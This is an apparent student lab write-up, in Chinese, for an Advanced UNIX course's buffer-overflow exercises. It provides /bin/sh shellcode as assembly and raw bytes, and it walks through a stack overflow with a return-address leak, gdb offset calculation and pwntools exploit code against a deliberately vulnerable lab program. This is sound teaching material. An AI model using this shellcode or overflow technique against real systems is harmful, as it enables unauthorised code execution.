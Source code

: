 # Lab5 Buffer overflow

## Challenge #1 Shellcode
>  try to invoke a shell, e.g., /bin/sh
```c
int main() {
	char buf[512];
	shellcode_t code = (shellcode_t) buf;

	setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin,  NULL, _IONBF, 0);

	if(getenv("NO_SANDBOX") == NULL)
		sandbox();

	printf("Enter your code> ");
	read(0, buf, sizeof(buf));
	code();

	return 0;
}
```
只需將網路上查到的/bin/bash的shellcode直接輸入到code裡面即可
https://github.com/imbianyunren/Adv_UNIX_2024/blob/main/Lab5/chal_1.py
可以使用asm實作 或是直接拿別人寫好一行的code
```python
codes = """
    xor rsi,rsi
	push rsi
	mov rdi,0x68732f2f6e69622f
	push rdi
	push rsp
	pop rdi
	push 59
	pop rax
	cdq
	syscall
"""
payloads = asm(codes)
```
```python
payloads = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
```

## Challenge #2 buffer overflow with no canary
我把注解放在原始code裡面
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <seccomp.h>
#include <sys/mman.h>

static char msg[512];

int task() {
	char buf[32]; // buffer只有開32

	printf("===========================================\n");
	printf("Welcome to the UNIX Hotel Messaging Service\n");
	printf("===========================================\n");

	printf("\nWhat's your name? ");
	read(0, buf, 256); // buffer只有開32，可是這裡可以輸入256bytes, 可以從這裡輸入超過buf大小的內容
	printf("Welcome, %s", buf); // 這邊有機會能夠吐出後面多餘的內容(因為read會一路讀到記憶體內容為0為止)

	printf("\nWhat's the room number? ");
	read(0, buf, 256);
	printf("The room number is: %s", buf);

	printf("\nWhat's the customer's name? ");
	read(0, buf, 256);
	printf("The customer's name is: %s", buf);

	printf("\nLeave your message: ");
	read(0, msg, sizeof(msg)); //msg這個參數有使用mrprotect賦予exec參數，所以要把/bin/sh的shellcode放在這裡
	printf("Thank you!\n");

	return 0;
}

int main() {
	setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin,  NULL, _IONBF, 0);
	if(mprotect((void *) (((long) msg) & 0xfffffffffffff000L), 4096, PROT_READ|PROT_WRITE|PROT_EXEC) != 0) {
		perror("mprotect");
	} else {
		task();
	}
	return 0;
}
```
整體來說基本上是利用buf這個參數會overflow吐出記憶體後面的內容
```python
payloads = b'A'*40 
r.recvuntil(b'name? ')
r.send(payloads)

z = r.recvline()
print(z)
print(u64(z.split(b'A'*40)[1][:-1].ljust(8,b'\x00')))
addr = u64(z.split(b'A'*40)[1][:-1].ljust(8,b'\x00'))
print(hex(addr))
```
老師一開始是說直接在buf送40個A去看會吐出甚麼:
```!
b'Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe4\xaa\xa0\xa5\xc4\x7f\n'

0x7fc4a5a0aae4 <-後面吐出來的hex
```

可以看到後面吐出一串東西，再從gdb-peda設斷點在`main`, `read(0, buf, 256)`來觀察記憶體內容
```
In terminal
-> gdb
-> file ./bof1
-> b 22 (read(0, buf, 256))
-> b 23 (輸入完觀察記憶體用)
-> b 35
-> r
```

執行run後可以看到要輸入buf的位置在rbp-0x20(32)，這也是為什麼要輸入40個字(A)，因為蓋過去後後面輸出的內容就會是rbp+08(return address)

![image](https://hackmd.io/_uploads/SyQXF824R.png)


OR可以在輸入完40個A後在gdb輸入`x/32x $rsp`看現在stack裡面內容
![image](https://hackmd.io/_uploads/r1NUfv2EA.png)

從下面圖(老師上課的圖不是題目的)可以看到rbp+08存的是return address，最後task()執行完要回main的時候會來這裡照rbp+08裡面地址執行
![image](https://hackmd.io/_uploads/B1F2tI34A.png)


(更: 測試時發現gdb執行他發現溢位的話會變成`7ffff7f2ea0a`，但如果是在./chal_1.py執行時會正常溢出要的位置，所以**7ffff7f2eae4才是ret address**)
所以`7ffff7f2eae4`就是return address，且也是在輸入40個A後後面會吐出的字串內容
![image](https://hackmd.io/_uploads/SJcdiw2NA.png)


那msg的地址在哪裡?把斷點設`在35行	printf("Thank you!\n");`看看
他會執行到`leave message:`，接著在這邊輸入隨便一組字`('123')`，在下一行到print(thank you)會停下
![image](https://hackmd.io/_uploads/B1v_bvn4C.png)
此時看剛輸入的`123`就在`$rsi`裡，msg地址是`0x7ffff7ff91e0`

所以我們從中得到:
Return Address: $rbp+8 = 0x7ffff7f2eae4
msg Address: 0x7ffff7ff91e0
兩者距離: 
Hex value: 7ffff7ff91e0 – 7ffff7f2eae4 = **CA6FC**

### 攻擊邏輯
1. 第一次輸入buf時取得ret addr = 7ffff7f2eae4
2. 將前面計算好ret addr與msg距離放入下一次要輸入buf的payload
```python
msg = addr + int("0xCA6FC",16) #msg addr
payloads = b'A'*40 + p64(msg, endian='little')
r.send(payloads)
```
3. 在leave msg那行放入shellcode
```python
r.send(shellcode)
```
4. 等最後要return時就會直接去執行msg的地址，也就是shellcode
5. 測試ls, cat file可不可以執行
![image](https://hackmd.io/_uploads/HJqfawnVC.png)


